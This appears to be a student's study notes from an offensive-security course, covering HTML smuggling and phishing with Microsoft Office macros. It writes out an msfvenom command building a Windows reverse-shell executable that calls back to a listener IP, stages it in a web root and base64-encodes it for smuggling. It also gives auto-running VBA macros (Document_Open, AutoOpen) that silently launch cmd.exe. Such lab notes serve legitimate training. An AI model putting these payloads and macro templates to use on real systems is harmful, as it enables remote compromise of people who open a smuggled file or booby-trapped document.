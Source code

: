# HTML smuggling

remember to use staged payload instead of non staged ones in meterpreter.

finally used 

```
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.6.12 LPORT=4444 -f exe -o /var/www/html/msfstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/msfstaged.exe
                                                                                                                                                                                                                                 
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ base64 /var/www/html/msfstaged.exe

```
check the code : using new_html.html

### 3.1.3.1 Exercises
1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format 
of your choosing.

2. Modify the smuggling code to also use the window.navigator.msSaveBlob62,63 method to 
make the technique work with Microsoft Edge as well.

The explot works in msedge also without any change.

# phishing with microsoft office

installing microsoft office 2016 from : `https://office-2016.fileplanet.com/download` - not verified.

### 3.2.1.1 Exercise
1. Install Microsoft Office on your Windows 10 client VM
done

## introduction to vba

creating a macro - view > macros

Leveraging existing methods like Document_Open() and AutoOpen()


```
Sub ss()
'
' ss Macro
'
'

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub

```

macro for calling cmd.exe

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```

Remember to save docx macro compatible.

## 3.2.2.1 Exercises
1. Experiment with VBA programming basics by creating a small macro that prints the current 
username and computer name 5 times using the Environ$ function.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim iCnt As Integer
    Dim sEnvVariable As String
    
    MsgBox Environ("USERNAME") + Environ("USERNAME")
     
End Sub

```

2. Create an Excel macro that runs when opening an Excel spreadsheet and executes cmd.exe 
using Workbook_Open

```
Sub Workbook_Open()
    myMacro

End Sub


Sub myMacro()
    MsgBox ("yello")
End Sub

```
# Let Powershell help us

Powershell is rendered on th efly using .NET framework










